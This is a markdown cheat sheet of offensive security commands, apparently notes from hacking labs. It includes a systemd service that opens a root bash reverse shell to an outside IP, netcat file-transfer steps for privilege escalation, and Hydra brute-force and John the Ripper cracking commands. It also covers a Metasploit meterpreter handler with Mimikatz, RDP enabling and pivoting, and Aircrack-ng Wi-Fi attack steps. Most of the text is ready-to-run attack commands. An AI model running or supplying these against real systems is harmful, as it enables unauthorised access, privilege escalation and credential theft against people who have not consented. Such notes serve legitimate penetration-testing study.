

# 3 Attack Tools

## Reverse Shell

### Netcat

Install```sudo apt install ncat```

Start netcat listening on e.g. port 1234: ```nc -lvnp 1234```

Once payload is triggered netcat will open a reverse shell:



## Create service

Create 0xfab1.service in /temp/

``` txt
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.193.173/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

- move file to /temp/ of www-data from attacker box:
 -on victim: ```nc -vl 44444 > fab.service```
- on attacker: ```nc -n TargetIP 44444 < fab.service```
- on attacker now start a new netcat session on 9999: ```nc -lvnp 9999```

Now use systemctl on victim machine and we should be root from the attacker box:

``` sh
/bin/systemctl enable /tmp/fab.service
/bin/systemctl start fab
```

## Passwords

- Crunch: create custom wordlists

### John the ripper

John the Ripper is a tool for offline password cracking

Crack keyfile PW

``` sh
gzip -d /usr/share/wordlists/rockyou.txt.gz
/usr/share/john/ssh2john.py ssh-key-kay.txt > forjohn.txt
john forjohn.txt --wordlist /usr/share/wordlists/rockyou.txt
```

Convert a JWT to a format John the Ripper can understand with [jwt2john](https://github.com/Sjord/jwtcrack):

``` sh
wget --quiet -O /usr/local/bin/jwt2john.py "https://raw.githubusercontent.com/Sjord/jwtcrack/master/jwt2john.py"
sed -i '1s;^;#!/usr/bin/env python\n;' /usr/local/bin/jwt2john.py
chmod +x /usr/local/bin/jwt2john.py
```

### Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```

## Metasploit

### Config

Start PostgreSQL und Metasploit on boot

``` sh
update-rc.d postgresql enable
update-rc.d metasploit enable
```

Manuall start

``` sh
service postgresql start
service metasploit start
```

### Start msfconsole

Init Metaspoit and start the console

``` sh
msfdb init
msfconsole -h
msfconsole
db_status
```

Add Target

``` sh
db_nmap -sV 10.10.201.217
```

Scan Target

``` sh
hosts
services
vulns
```

### Use Exploit

This is an example using an exploit with Metasploit:

``` sh
search multi/handler
use # exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.9.193.173
set RHOSTS 10.10.201.217
use icecast
run -j
sessions
sessions -i 1
```

Check Machine

``` sh
getprivs
sysinfo
getuid
```

Start Mimikatz

``` sh
load kiwi
```

Try different exploits

``` sh
run post/windows/gather/checkvm
run post/multi/recon/local_exploit_suggester
run post/windows/manage/enable_rdp
```

``` sh
run autoroute -s 10.10.201.217 -n 255.255.255.0
```

## WiFi

### Aircrack-NG suite

Send Kismet dump

``` sh
aircrack-ng -b 00:1E:58:B4:24:F4 /root/Kismet.dump
```

Preparing The WIFI Card for Airodump

``` sh
modprobe -r iwl3945
modprobe ipwraw
airmon-ng start [device]
airodump-ng [device]
airodump-ng -c [channel] -w [network.out] –bssid [bssid] [device]
aireplay-ng -1 0 -a [bssid] -h 00:11:22:33:44:66 -e [essid] [device]
airplay-ng -3 -b [bssid] -h 00:11:22:33:44:66 [device]
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b [bssid] -h 00:11:22:33:44:66 [device]
aircrack-ng -n 128 -b [bssid] [filename]-01.cap
```

### Kismet

Config [Kismet](https://www.kismetwireless.net)

- Config this file```/usr/local/etc/kismet.conf```
- And add a sourece e.g.```source=ipw2200,eth1,Intel```

Commands

- ss (type)
- L (choose WIFI+Channel)
- i (Info -> copy BSSID)

### Fluxion

Clone of the target Wi-Fi network.
